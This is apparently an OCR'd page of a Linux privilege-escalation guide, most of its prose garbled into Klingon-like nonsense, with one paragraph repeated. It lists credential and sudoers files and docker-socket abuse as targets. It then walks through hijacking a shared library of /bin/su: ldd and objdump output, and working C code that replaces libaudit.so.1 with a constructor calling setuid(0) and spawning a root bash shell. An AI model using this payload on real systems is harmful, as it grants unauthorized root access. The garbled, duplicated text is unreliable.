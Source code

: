 ## qoHwI' DaH jImej

### qoHwI' HaSta

* _/etc/passwd_ vItlhutlh user password
* _/etc/shadow_ vItlhutlh user password
* _/etc/sudoers_ vItlhutlh user sudoers
* _/run/docker.sock_ yIlo' _/var/run/docker.sock_ Daq abuse docker

### qoHwI' DaH jImej

`/bin/su` Daq binary vItlhutlh library vItlhutlh:
```bash
ldd /bin/su
linux-vdso.so.1 (0x00007ffef06e9000)
libpam.so.0 => /lib/x86_64-linux-gnu/libpam.so.0 (0x00007fe473676000)
libpam_misc.so.0 => /lib/x86_64-linux-gnu/libpam_misc.so.0 (0x00007fe473472000)
libaudit.so.1 => /lib/x86_64-linux-gnu/libaudit.so.1 (0x00007fe473249000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fe472e58000)
libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007fe472c54000)
libcap-ng.so.0 => /lib/x86_64-linux-gnu/libcap-ng.so.0 (0x00007fe472a4f000)
/lib64/ld-linux-x86-64.so.2 (0x00007fe473a93000)
```
In this case lets try to impersonate `/lib/x86_64-linux-gnu/libaudit.so.1`.\
So, check for functions of this library used by the **`su`** binary:
```bash
objdump -T /bin/su | grep audit
0000000000000000      DF *UND*  0000000000000000              audit_open
0000000000000000      DF *UND*  0000000000000000              audit_log_user_message
0000000000000000      DF *UND*  0000000000000000              audit_log_acct_message
000000000020e968 g    DO .bss   0000000000000004  Base        audit_fd
```
The symbols `audit_open`, `audit_log_acct_message`, `audit_log_acct_message` and `audit_fd` are probably from the libaudit.so.1 library. As the libaudit.so.1 will be overwritten by the malicious shared library, these symbols should be present in the new shared library, otherwise the program will not be able to find the symbol and will exit.

---

The symbols `audit_open`, `audit_log_acct_message`, `audit_log_acct_message` and `audit_fd` are probably from the libaudit.so.1 library. As the libaudit.so.1 will be overwritten by the malicious shared library, these symbols should be present in the new shared library, otherwise the program will not be able to find the symbol and will exit.
```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

//gcc -shared -o /lib/x86_64-linux-gnu/libaudit.so.1 -fPIC inject.c

int audit_open;
int audit_log_acct_message;
int audit_log_user_message;
int audit_fd;

void inject()__attribute__((constructor));

void inject()
{
setuid(0);
setgid(0);
system("/bin/bash");
}
```
NuqneH, **`/bin/su`** jImejDaq 'ej root jImej.